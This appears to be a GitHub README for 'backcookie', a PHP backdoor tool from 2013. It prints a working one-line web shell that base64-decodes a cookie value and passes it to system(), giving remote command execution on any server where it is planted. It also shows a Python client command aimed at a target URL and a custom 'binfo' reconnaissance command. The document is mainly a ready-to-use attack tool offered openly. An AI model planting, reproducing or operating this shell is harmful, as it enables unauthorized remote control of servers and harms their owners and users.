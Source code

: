 backcookie
==========

[![Total views](https://sourcegraph.com/api/repos/github.com/mrjopino/Backcookie/counters/views.png)](https://sourcegraph.com/github.com/mrjopino/Backcookie)

Small backdoor using cookie.

==========

```php
<?php error_reporting(0); system(base64_decode($_COOKIE["yourcookie"])); ?>
```

```
Example: python backcookie.py -u http://target.com/shell.php -c name_cookie
```
Custom command (binfo), You get objective information
```
@pwned:~$ binfo
```

## Developer

-------------

Copyright, 2013 by [José Pino](http://twitter.com/mrjopino)

-------------
